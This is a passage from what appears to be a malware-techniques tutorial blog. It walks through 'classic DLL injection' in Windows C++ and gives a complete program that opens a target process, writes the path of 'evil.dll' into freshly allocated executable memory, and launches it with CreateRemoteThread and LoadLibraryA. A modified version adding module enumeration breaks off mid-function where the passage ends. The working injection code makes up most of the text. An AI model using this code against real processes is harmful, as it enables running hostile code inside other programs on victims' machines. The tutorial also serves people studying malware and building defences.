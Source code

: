 As you can see, everything is worked perfectly!     

### practical example 2. inject dll

Let's say we have a malware with [classic DLL injection](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html) logic `hack2.cpp`:    

```cpp
#include <iostream>
#include <windows.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char *argv[]) {
  // inject a DLL into remote process
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  HANDLE ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));  
  LPVOID rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);
  HANDLE rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);

  CloseHandle(ph);
  return 0;
}
```

And then, we modify this code a little bit: we add `EnumerateLoadedModules` API call with previous callback function:

```cpp
/*
hack2.cpp
DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/21/malware-tricks-25.html
*/
#include <iostream>
#include <windows.h>
#include <dbghelp.h>

#pragma comment (lib, "dbghelp.lib")

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

// callback function
BOOL CALLBACK PrintModules(
  PSTR ModuleName,
  ULONG ModuleBase,
  ULONG ModuleSize,
  PVOID UserContext) {
    // print the module name.
    printf("%s\n", ModuleName);
    return TRUE;
}

int main(int argc, char *argv[]) {
  // inject a DLL into remote process

  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");
```